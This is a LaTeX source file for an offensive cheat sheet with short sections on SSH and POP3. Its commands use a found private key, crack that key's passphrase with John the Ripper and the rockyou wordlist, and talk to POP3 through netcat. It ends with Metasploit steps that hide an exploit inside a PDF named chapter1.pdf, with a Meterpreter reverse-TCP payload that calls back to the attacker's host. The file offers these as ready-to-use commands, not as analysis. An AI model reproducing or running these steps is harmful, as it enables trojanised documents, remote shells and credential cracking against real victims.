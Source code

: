 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
\subsection{SSH}
Use:
\begin{lstlisting}
	ssh $user@$IP
\end{lstlisting}
If you have found the private key:
\begin{lstlisting}
	ssh -i id_rsa $user@$IP
\end{lstlisting}
If the key has a password:
\begin{lstlisting}
	/usr/share/john/ssh2john.py id_rsa > id_rsa_john.txt
	
	john id_rsa_john.txt
	--wordlist=/usr/share/wordlists/rockyou.txt
\end{lstlisting}

\subsection{POP3}
Connect with netcat:
\begin{lstlisting}
	nc $IP $port
\end{lstlisting}
Most commonly used commands:
\begin{lstlisting}
	USER <username>
	PASS <password>
	STAT
	LIST
	RETR
	DELE
	RSET
	TOP
	QUIT
\end{lstlisting}

\section{Miscellaneous}

\subsection{Embedding an exploit in a pdf file}
This exploit only works on Adobe Reader Version 9.1 or lower.
\begin{lstlisting}
	msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
	
	msf > exploit (adobe_pdf_embedded_exe) > set payload 
	windows/meterpreter/reverse_tcp
	
	msf > exploit (adobe_pdf_embedded_exe) > set INFILENAME 
	chapter1.pdf
	
	msf > exploit (adobe_pdf_embedded_exe) > set FILENAME 
	chapter1.pdf
	
	msf > exploit (adobe_pdf_embedded_exe) > set LHOST $YOURIP
	
	exploit
\end{lstlisting}
\end{document}
